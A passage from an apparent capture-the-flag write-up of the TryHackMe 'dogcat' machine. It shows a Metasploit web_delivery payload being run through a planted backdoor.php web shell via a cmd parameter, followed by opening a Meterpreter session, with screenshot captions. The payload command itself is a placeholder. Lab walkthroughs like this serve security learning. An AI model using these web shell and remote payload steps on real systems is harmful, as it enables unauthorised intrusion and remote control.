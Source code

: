<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 15_57_58-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Web delivery's PHP payload</i></center>
<br/>

Finally, we run the given command on the victim using our backdoor web shell, by browsing to:

```console
http://dogcat.thm/backdoor.php?cmd=<Web-delivery_command>
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 16_09_07-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Sending the payload</i></center>
<br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 16_13_31-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Session established successfully</i></center>
<br/>

If all went well, you should be able to interact with a Meterpreter session, by typing the command:

```bash
msf6 exploit(multi/script/web_delivery) > sessions -i <SESSION_ID>
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 16_16_12-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Meterpreter shell</i></center>
<br/>
